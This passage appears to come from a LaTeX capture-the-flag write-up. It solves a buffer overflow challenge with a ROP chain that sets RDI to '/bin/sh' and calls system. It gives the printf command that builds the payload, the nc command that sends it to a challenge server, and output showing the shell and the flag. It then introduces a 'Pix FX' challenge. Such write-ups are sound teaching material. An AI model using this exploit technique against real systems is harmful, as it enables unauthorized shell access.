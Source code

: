 \documentclass[english,a4paper,nols,noindent]{tufte-handout}
\begin{document}
\begin{itemize}
\item overflow the buffer with 40 characters
\item add the address 0x4007bf to jump to the code to load RDI
\item add the address 0x6010b1 -- the address of \verb+/bin/sh+
\item add the address 0x4007cc -- the address of the call to \verb+system+
\end{itemize}

This gives us the shell:
\begin{verbatim}
$ printf "AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDEEEEEEEE\xbf\x07\x40\x00\x00  \
    \x00\x00\x00\xb1\x10\x60\0\0\0\x00\x00\xcc\x07\x40\0\0\0\0\0\nls\n  \
    cat flag\n">payload
$ nc 46.101.107.117 2112 < payload
Welcome! Please give me your name!
> Hi AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDEEEEEEEE@, nice to meet you!
challenge2
flag
ynetd
he2021{s41l0r_r0p_f0r_pr0f1t}
\end{verbatim}

\noindent ... and now we also understand that the rops are not a typo!


\hypertarget{he21.30}{%
\section{HE21.30 Pix FX}
  \label{he21.30}}
\begin{marginfigure}
    \includegraphics[width=50mm]{images/challenge30.jpg}
\end{marginfigure}

\noindent Hey there! We have our fancy new Pix FX service online!

\noindent Try it out!

\url{http://46.101.107.117:2110}

Note: The service is restarted every hour at x:00

\subsection{Show Hint (free)}
\begin{itemize}
\item egg
\end{itemize}
\end{document}

